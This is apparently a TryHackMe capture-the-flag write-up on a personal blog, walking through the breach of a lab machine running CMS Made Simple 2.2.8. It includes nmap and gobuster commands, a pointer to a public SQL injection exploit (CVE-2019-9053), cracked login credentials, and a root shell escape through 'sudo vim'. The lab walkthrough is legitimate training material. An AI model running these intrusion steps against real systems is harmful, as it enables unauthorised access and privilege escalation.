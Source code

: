 ```yaml
---
layout: post
title: "CVE-2019-9053"
author: "Nicholas Coleman"
date: 2025-04-11
tags: tryhackme
---
```


## Breaching a Vulnerable Site

I begin by scanning the IP with nmap: \`nmap \-sC \-sV \-oA ctf1/scan 10.10.75.135\`

```  
\# Nmap 7.95 scan initiated Thu Apr 10 16:29:02 2025 as: /usr/lib/nmap/nmap \--privileged \-sC \-sV \-oA ctf1/scan 10.10.75.135  
Nmap scan report for 10.10.75.135  
Host is up (0.12s latency).  
Not shown: 997 filtered tcp ports (no-response)  
PORT 	STATE SERVICE VERSION  
21/tcp   open  ftp 	vsftpd 3.0.3  
| ftp-syst:  
|   STAT:  
| FTP server status:  
|  	Connected to ::ffff:10.6.25.18  
|  	Logged in as ftp  
|  	TYPE: ASCII  
|  	No session bandwidth limit  
|  	Session timeout in seconds is 300  
|  	Control connection is plain text  
|  	Data connections will be plain text  
|  	At session startup, client count was 2  
|  	vsFTPd 3.0.3 \- secure, fast, stable  
|\_End of status  
| ftp-anon: Anonymous FTP login allowed (FTP code 230\)  
|\_Can't get directory listing: TIMEOUT  
80/tcp   open  http	Apache httpd 2.4.18 ((Ubuntu))  
|\_http-server-header: Apache/2.4.18 (Ubuntu)  
| http-robots.txt: 2 disallowed entries  
|\_/ /openemr-5\_0\_1\_3  
|\_http-title: Apache2 Ubuntu Default Page: It works  
2222/tcp open  ssh 	OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)  
| ssh-hostkey:  
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)  
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)  
|\_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)  
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux\_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
\# Nmap done at Thu Apr 10 16:29:56 2025 \-- 1 IP address (1 host up) scanned in 53.75 seconds  
```

There are 3 ports open: 21, 80, and 2222\. All of these can be useful for us when trying to think of ways to breach the system. The attack surface of this system is nice to work with \- especially when one of the vectors is exploiting the insecure design.

The web server this machine is hosting redirects to the default Apache webpage. But this does not necessarily indicate the site is empty, so I decided to look deeper with gobuster to see if there was anything else hidden. Gobuster is really handy and easy to use, not to mention \- a very fast tool.

Using this command:

`gobuster dir -u 10.10.75.135 -w directory-list-2.3-medium.txt -t 100`

Gobuster shows me that there is indeed another page with the path: `/simple`.

Navigating to /simple brings me to a website called CMS Made Simple. The version is 2.2.8. The version of the website out in the open like this makes my job a lot easier when trying to find exploits that will work.

![CMS](/security.github.io/images/simple/cms_simple.png)

After a quick Google search, I was able to find that this version of CMS Made Simple is vulnerable to a SQL injection exploit (CVE-2019-9053).

https://www.exploit-db.com/exploits/46635

This SQLi Python script extracts the hashed password and cracks it, enabling access to the target system. The results were:

```  
Username: mitch  
Email: admin@admin.com  
Password: 0c01f4468bd75d7a84c7eb73846e8d96  
Cracked Password: secret  
```

Now I am able to ssh into mitch's computer using: \`ssh mitch@10.10.75.135 \-p 2222\` with the password:

![SSH](/security.github.io/images/simple/SSH.png)

Once inside, the User flag: user.txt is readily available for me to capture. Easy\! 

My next order of business is to see what sudo commands the users here can run. Using \`sudo \-l\`, I am able to see that Mitch is able to run /usr/bin/vim as a root user without a password. 

After looking online, I found out that Vim can be used to *break out of restricted environments by spawning an interactive system shell*. This is a huge vulnerability and gives us the ability to escalate our privileges to become the root user \- with this simple command: \`sudo vim \-c ':\!/bin/sh'\`.

![sudo vim](/security.github.io/images/simple/sudovim.png)

There you go \- I have achieved privilege escalation. After navigating to the root directory, I was able to finally find the root flag:

![final](/security.github.io/images/simple/final.png)

Whoever is running this website needs to seriously work on the security!
